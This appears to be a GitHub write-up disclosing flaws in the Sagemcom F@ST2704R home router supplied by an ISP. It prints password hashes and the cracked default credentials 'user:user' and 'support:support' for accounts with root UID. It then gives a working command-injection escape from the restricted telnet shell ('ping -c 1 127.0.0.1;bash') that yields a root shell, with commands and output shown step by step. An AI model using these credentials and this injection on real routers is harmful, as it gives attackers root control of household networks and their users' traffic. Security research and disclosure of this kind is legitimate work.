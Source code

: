 # Root shell for everybody!

## Long story short

I went back to my parent's place for a few days. I had quite a surprise: they replaced the nice Cisco router I got them by a Sagemcom F@ST2704R . When I asked them why, they told me the local ISP gave F@ST2704R to their all their clients in the area. Knowing that was quite a lot of clients I decided to take a look at it.

## So... How is it?

This piece of hardware is crap.

Telnet and ssh is activated by default on the LAN. The admin password is a string of 4 random lowercase letters. Wrong start mate.

I logged on telnet to discover the provided shell was somewhat limited. Trying basic unix commands would lead to an error.

```> ls

telnetd:error:774.006:processInput:406:unrecognized command ls ```

Let's see what we have

```
> help

?
help
logout
exit
quit
reboot
adsl
xdslctl
xtm
brctl
cat
loglevel
logdest
virtualserver
ddns
df
dumpcfg
dumpmdm
dm
meminfo
psp
kill
dumpsysinfo
dnsproxy
syslog
echo
ifconfig
ping
ps
pwd
sntp
sysinfo
tftp
wlctl
arp
defaultgateway
dhcpserver
dns
lan
lanhosts
passwd
ppp
restoredefault
route
save
swversion
uptime
cfgupdate
swupdate
exitOnIdle
wan
mcpctl
```


No ls, no cd... I would need more than that. Still, I got cat!
From there, I grab the ```/etc/passwd``` file. There were 2 users I found interesting.

```support:5IkwiJv9RNzV.:0:0:Technical Support:/:/bin/sh
user:75bUXAuHldJ82:0:0:Normal User:/:/bin/sh```

We can see their UID and GID is 0... who the hell gives admin privileges to a user account?????
Cracking the hashes with the tool john, we find the credentials are

```support:support
user:user```

The admin account had at least the decency of using a randomly generated password instead of a hardcoded one...

Trying to log with the support account leads to a dead end, access is denied for some reason.
This is not the case with the "user" account. Typing help in the user prompt gives us a really short list of commands that can be used by the user account.

```> help
?
help
logout
exit
quit
reboot
dnsproxy
ping
lanhosts
passwd
restoredefault
save
swversion
uptime
cfgupdate
swupdate
exitOnIdle
wan```

Let's explore the firmware for more info!

Unfortunately, the F@ST2704R firmware is not available to download, but the F@ST2704 is. It can't be THAT different eh?
wget this stuff, and binwalk the shit out of it!
Not so surprisingly, the binairies we want exist in the /bin folder, the shell we're provided just can't get to it. But we have access to ping...

 ```> ping -c 1 127.0.0.1
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=64 time=0.866 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.866/0.866/0.866 ms```


I wonder if... Let's try some semicolon magic!

```> ls
telnetd:error:997.792:processInput:406:unrecognized command ls
 >
 >
 > ping -c 1 127.0.0.1;ls
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=64 time=0.948 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.948/0.948/0.948 ms
bin      etc      mnt      sbin     usr      webs-EN
data     lib      opt      sys      var      webs-FR
dev      linuxrc  proc     tmp      webs
```

Alright! this way I can get a real shell

``` > ping -c 1 127.0.0.1;bash
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=64 time=0.459 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.459/0.459/0.459 ms


BusyBox v1.17.2 (2013-09-30 17:48:17 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# 
```

 Using the username user and the default password user followed by this ping/semicolon loophole gives us access to a shell with administrative rights more easiy than brute-forcing the admin's password (default 4 letters, can be changed for another one up to 16 letters).

 Automated shell sript included lucky bastard!